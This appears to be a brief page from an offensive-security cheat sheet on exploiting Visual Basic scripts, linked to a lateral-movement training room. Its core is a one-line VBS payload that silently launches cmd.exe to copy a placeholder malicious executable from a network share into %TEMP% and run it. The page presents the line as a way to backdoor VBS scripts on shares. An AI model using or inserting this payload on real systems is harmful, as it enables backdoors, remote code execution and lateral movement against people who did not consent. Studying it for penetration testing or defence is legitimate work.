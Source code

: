 # Exploiting Visual Basic Scripts
> **Do not confuse Visual Basic scripts (`.vbs`) with Visual Basic for Applications!**

VBS code to copy a file from a share and then execute it locally. This is useful for backdooring VBS scripts on shares.

```vb
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\$SHARE_NAME\$SHARE_PATH\$MALICIOUS_EXE %TEMP% & %TEMP%\$MALICIOUS_EXE $OPTIONAL_ARGUMENTS", 0, True
```

### Additional Resources
* [Exploiting Visual Basic for Applications](./Exploiting%20Visual%20Basic%20for%20Applications.md)
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
